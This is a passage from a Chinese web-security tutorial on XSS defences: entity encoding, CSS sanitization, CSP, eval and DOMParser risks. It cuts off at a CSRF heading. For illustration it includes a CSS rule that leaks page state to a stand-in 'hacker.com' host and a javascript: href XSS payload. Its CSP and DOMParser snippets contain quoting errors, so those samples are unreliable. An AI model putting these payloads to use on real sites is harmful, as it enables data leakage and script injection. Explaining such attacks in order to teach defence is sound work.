 <h3 id="html实体编码">HTML实体编码</h3>

<p>另外一种防御措施是，对用户提供的数据中存在的所有HTML标记执行HTML实体转义。实体编码允许某些特定的字符在浏览器中显示，但不能将其解释为JavaScript来执行。比如标签&lt;&gt;对应的编码就是 &amp; + lt; 和 &amp; + gt;。</p>

<h3 id="css净化">CSS净化</h3>

<p>CSS 的净化包括了净化任何 HTTP 相关的 CSS 属性，或者只允许用户更改指定的 CSS 字段，再或者干脆禁止用户上传 CSS 等。因为相关的属性，比如 <code>background:url</code>，可能会导致黑客远程改变页面的展示。</p>

<pre><code class="language-javascript">#bankMember[status=&quot;vip&quot;] {
  background:url(&quot;https://www.hacker.com/incomes?status=vip&quot;);
}
</code></pre>

<h3 id="内容安全策略">内容安全策略</h3>

<p>内容安全策略（CSP）是一个安全配置工具。CSP 可以允许我们以白名单的方式列出允许动态加载脚本的网站。实现 CSP 的方式很简单。在后端的话，可以通过加Content-Security-Policy的标头来实现；如果是在前端的话，则可以通过元标签实现。</p>

<pre><code class="language-javascript">Content-Security-Policy: script-src &quot;self&quot; https://api.example.com.

&lt;meta http-equiv=&quot;Content-Security-Policy&quot; content=&quot;script-src https://www.example.com;&quot;&gt;
</code></pre>

<p>另外，默认的情况下，CSP 可以禁止任何形式的内联脚本的执行。在使用 CSP 的时候，要注意不要使用eval()，或者类似 eval() 的字符串。eval() 的参数是一个字符串，但如果字符串表示的是一个函数表达式，eval() 会对表达式进行求值。如果参数表示一个或多个 JavaScript 语句，那么 eval() 也会执行这些语句。</p>

<pre><code class="language-javascript">eval(&quot;17+9&quot;) // 26
var countdownTimer = function(mins, msg) {
  setTimeout(`console.log(${msg});`, mins * 60 * 1000);
};
</code></pre>

<h3 id="尽量避免的api">尽量避免的API</h3>

<p>有些 DOM API 是要尽量避免使用的。下面我们再看看DOMParser API，它可以将 <code>parseFromString</code> 方法中的字符串内容加载到DOM节点中。对于从服务器端加载结构化的 DOM，这种方式可能很方便，但是却有安全的隐患。而通过 <code>document.createElement()</code> 和 <code>document.appendChild()</code> 可以降低风险，虽然使用这两种方法增加了人工成本，但是可控性会更高。因为在这种情况下，DOM 的结构和标签名称的控制权会在开发者自己手中，而负载只负责内容。</p>

<pre><code class="language-javascript">var parser = new DOMParser();
var html = parser.parseFromString('&lt;script&gt;alert(&quot;hi&quot;);&lt;/script&gt;`);
</code></pre>

<p>Blob 和 SVG 的 API 也是需要注意的接口，因为它们存储任意数据，并且能够执行代码，所以很容易成为污点汇聚点（sinks）。Blob 可以以多种格式存储数据，而 base64 的 blob 可以存储任意数据。可缩放矢量图形（SVG）非常适合在多种设备上显示一致的图像，但由于它依赖于允许脚本执行的XML规范，SVG 可以启动任何类型的 JavaScript加载，因此使用的风险要大于其他类型的可视化图像。</p>

<p>另外，即使是将不带标签的字符串注入DOM时，要确保脚本不会趁虚而入也很难。比如下面的例子就可以绕开标签或单双引号的检查，通过冒号和字符串方法执行弹窗脚本，显示&rdquo;XSS&rdquo;。</p>

<pre><code class="language-xml">&lt;a href=&quot;javascript:alert(String.fromCharCode(88,83,83))&quot;&gt;click me&lt;/a&gt;
</code></pre>

<h2 id="跨站请求伪造">跨站请求伪造</h2>
